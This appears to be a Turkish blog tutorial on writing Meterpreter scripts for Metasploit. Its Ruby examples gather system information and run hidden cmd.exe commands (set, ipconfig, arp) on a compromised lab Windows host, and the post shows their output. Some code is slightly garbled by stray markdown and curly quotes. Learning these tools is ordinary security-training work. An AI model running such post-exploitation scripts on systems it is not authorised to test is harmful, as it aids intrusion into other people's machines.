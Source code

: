 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Düzenleme'
date: '2017-06-14T13:49:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve\_helloworld.rb\_olarak\_/usr/share/metasploit-framework/scripts/meterpreter\_klasörüne kayıt edelim." 
 
url:  /tr/msf-meterpreter-script-duzenleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Script Yazma



Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve `helloworld.rb` olarak `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edelim.


```bash
root@kali:~# echo “print_status(“Hello World”)” > /usr/share/metasploit-framework/scripts/meterpreter/helloworld.rb
```



Oluşturduğumuz script kodunu meterpreter oturum açık iken çalıştıralım.


```bash
meterpreter > run helloworld
> Hello World
meterpreter >
```



Basit bir Ruby kodunu, meterpreter içinde çalıştırmış olduk. Şimdi ise bir kaç API çağrısını `helloworld.rb` dosyamızın içine ekleyelim. Aşağıdaki satırları, metin editör kullanarak ekleyebilirsiniz.


```bash
print_error(“this is an error!”)
print_line(“this is a line”)
```



Yukarıdaki satırlar, standart veri girişi ve hata mesajları için kullanıma bir örnek oluşturmaktadır. Oluşturduğumuz kodları çalıştıralım.


```bash
meterpreter > run helloworld
> Hello World
[-] this is an error!
this is a line
meterpreter >
```



## helloworld.rb



Script kod dosyamız en son olarak aşağıdaki gibi olmalıdır.


```bash
print_status("Hello World")
print_error("this is an error!")
print_line("This is a line")
```



Şimdi kodumuza bir fonksiyon ekleyelim. Bu fonksiyonda, bir kaç temel bilgi elde edeceğiz ve hata kontrol özelliği ekleyeceğiz. Oluşturacağımız mimarinin yapısı aşağıdaki gibi olacaktır.


```bash
 def geninfo(session)
    begin
    …..
    rescue ::Exception => e
    …..
    end
 end
```



Bu yapıyı oluşturmak için dosyayı aşağıdaki şekilde düzenlemeniz yeterlidir. Bu düzenlemeleri yaptıktan sonra `helloworld.rb` dosyamızın içeriği aşağıdaki gibi olacaktır.


```bash
 def getinfo(session)
    begin
       sysnfo = session.sys.config.sysinfo
       runpriv = session.sys.config.getuid
       print_status("Getting system information ...")
       print_status("tThe target machine OS is #{sysnfo['OS']}")
       print_status("tThe computer name is #{'Computer'} ")
       print_status("tScript running as #{runpriv}")
    rescue ::Exception => e
       print_error("The following error was encountered #{e}")
    end
 end
```



Bu kodların ne işlem yaptığını adım adım açıklayalım. Öncelikle, değerleri `session` değişkeninden alan `getinfo(session)` isimli bir foksiyon tanımladık. Bu session değişkeni, bir takım metodları ihtiva etmektedir. `sysnfo = session.sys.config.sysinfo` satırı sistem bilgisini getirirken `runpriv = session.sys.config.getuid` kullanıcı bilgisini elde etmekte kullanılmaktadır. Ayrıca, hata durumlarını yönetici istisna yöneticisi bulunmaktadır.



## helloworld2.rb



İlk oluşturduğumuz dosyaya ufak bir ilave yaparak `helloworld2.rb` dosyası üretelim. `helloworld2.rb` dosyası, az önce oluşturduğumuz dosyanın sonuna getinfo(client) satırının eklenmiş halidir. Bu satırı ekleyip dosyayı `helloworld2.rb` olarak kayıt edelim. Dosyanın son hali aşağıdaki gibi olmalıdır.


```bash
 def getinfo(session)
    begin
       sysnfo = session.sys.config.sysinfo
       runpriv = session.sys.config.getuid
       print_status("Getting system information ...")
       print_status("tThe target machine OS is #{sysnfo['OS']}")
       print _status("tThe computer name is #{'Computer'} ")
       print_status("tScript running as #{runpriv}")
 rescue ::Exception => e
       print_error("The following error was encountered #{e}")
    end
 end

 getinfo(client)
```



Şimdi hazırladığımız `helloworld2.rb` dosyamızı Meterpreter oturumunda çalıştıralım.


```bash
 meterpreter > run helloworld2
 > Getting system information ...
 >     The target machine OS is Windows XP (Build 2600, Service Pack 3).
 >     The computer name is Computer
 >     Script running as WINXPVM01labuser
```



Gördüğünüz gibi `helloworld2.rb` scripti ile bir takım sistem bigilerini ele etmiş olduk.



## helloworld3.rb



Yukarıda oluşturduğumuz iki örnek kod dosyasından sonra şimdi başka bir örnek scripte bakalım. Bu script dosyasını metin editorü ile oluşturabilirsiniz. İçeriği aşağıdaki gibi olmalıdır.


```bash
def list_exec(session,cmdlst)
    print_status("Running Command List ...")
    r=''
    session.response_timeout=120
    cmdlst.each **do** |cmd|
       begin
          print_status "running command #{cmd}"
          r = session.sys.process.execute("cmd.exe /c #{cmd}", nil, {'Hidden' => true, 'Channelized' => true**})**
          **while**(d = r.channel.read)             print_status("t#{d}")
          end
          r.channel.close
          r.close
       rescue ::Exception => e
          print_error("Error Running Command #{cmd}: #{e.class} #{e}")
       end
    end
 end commands = [ "set",
    "ipconfig  /all",
    "arp -a"] list_exec(client,commands)
```



Yukarıdaki kodların ne işlemler yaptığına kısaca bakalım. Öncelikle, `list_exec` isimli bir fonksiyon tanımlanmıştır. Bu fonksiyon, `session` ve `cmdlist` isimli iki değişken almaktadır. `cmdlist` değişkeninin array yöntemiyle bir dizi komutlar olduğu, kodlardan anlaşılmaktadır. Bu komutlar, sırayla değişkenden alınacak `cmd.exe` üzerinden hedef sistemde çalıştırılacaktır. Sistemin donma ve tepkisiz kalma durumunu önlemek için `session.response_timeout=120` 120 saniye bekleme süresi tanımlanmıştır. Önceki script kodunda olduğu gibi hata kontrol satırı da bulunmaktadır.



`cmdlist` dizi değişkeni aslında aşağıda gösterilen komutları sırayla çalıştırmaktadır.


```bash
 commands = [ “set”,
    “ipconfig  /all”,
    “arp –a”]
```



Komutların sonunda da oluşturduğumuz fonksiyonu çalıştırma satırı `list_exec(client,commands)` bulunmaktadır.



Şimdi oluşturduğumuz yeni helloworld3.rb script kodunu Meterpreter oturumu içinde çalıştıralım.


```bash
 meterpreter > run helloworld3
 > Running Command List ...
 >     running command set
 >     ALLUSERSPROFILE=C:\Documents and Settings\All Users
 APPDATA=C:\Documents and Settings\P0WN3D\Application Data
 CommonProgramFiles=C:\Program Files\Common Files
 COMPUTERNAME=TARGET
 ComSpec=C:\WINNT\system32\cmd.exe
 HOMEDRIVE=C:
 HOMEPATH=
 LOGONSERVER=TARGET
 NUMBER_OF_PROCESSORS=1
 OS=Windows_NT
 Os2LibPath=C:\WINNT\system32\os2dll;
 Path=C:\WINNT\system32;C:\WINNT;C:\WINNT\System32\Wbem
 PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
 PROCESSOR_ARCHITECTURE=x86
 PROCESSOR_IDENTIFIER=x86 Family 6 Model 7 Stepping 6, GenuineIntel
 PROCESSOR_LEVEL=6
 PROCESSOR_REVISION=0706
 ProgramFiles=C:\Program Files
 PROMPT=$P$G
 SystemDrive=C:
 SystemRoot=C:\WINNT
 TEMP=C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 TMP=C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 USERDOMAIN=TARGET
 USERNAME=P0WN3D
 USERPROFILE=C:\Documents and Settings\P0WN3D
 windir=C:\WINNT >     running command ipconfig  /all
 >     
 Windows 2000 IP Configuration Host Name . . . . . . . . . . . . : target
 Primary DNS Suffix  . . . . . . . : 
 Node Type . . . . . . . . . . . . : Hybrid
 IP Routing Enabled. . . . . . . . : No
 WINS Proxy Enabled. . . . . . . . : No
 DNS Suffix Search List. . . . . . : localdomain Ethernet adapter Local Area Connection: Connection-specific DNS Suffix  . : localdomain
 Description . . . . . . . . . . . : VMware Accelerated AMD PCNet Adapter
 Physical Address. . . . . . . . . : 00-0C-29-85-81-55
 DHCP Enabled. . . . . . . . . . . : Yes
 Autoconfiguration Enabled . . . . : Yes
 IP Address. . . . . . . . . . . . : 172.16.104.145
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 172.16.104.2
 DHCP Server . . . . . . . . . . . : 172.16.104.254
 DNS Servers . . . . . . . . . . . : 172.16.104.2
 Primary WINS Server . . . . . . . : 172.16.104.2
 Lease Obtained. . . . . . . . . . : Tuesday, August 25, 2009 10:53:48 PM
 Lease Expires . . . . . . . . . . : Tuesday, August 25, 2009 11:23:48 PM >     running command arp -a
 >     
 Interface: 172.16.104.145 on Interface 0x1000003
 Internet Address      Physical Address      Type
 172.16.104.2          00-50-56-eb-db-06     dynamic   
 172.16.104.150        00-0c-29-a7-f1-c5     dynamic    meterpreter >
```



Gördüğünüz gibi, Ruby kodlarıyla script oluşturmak aslında çok kolay. İlk başta kodlar biraz karışık gelebilir ancak mevcut koldarı biraz çalıştığınızda aşinalık kazanacaksınız. Devamında yapmanız gereken, kod örneklerinden faydalanarak kendi script dosyanızı oluşturmak ve denemektir.
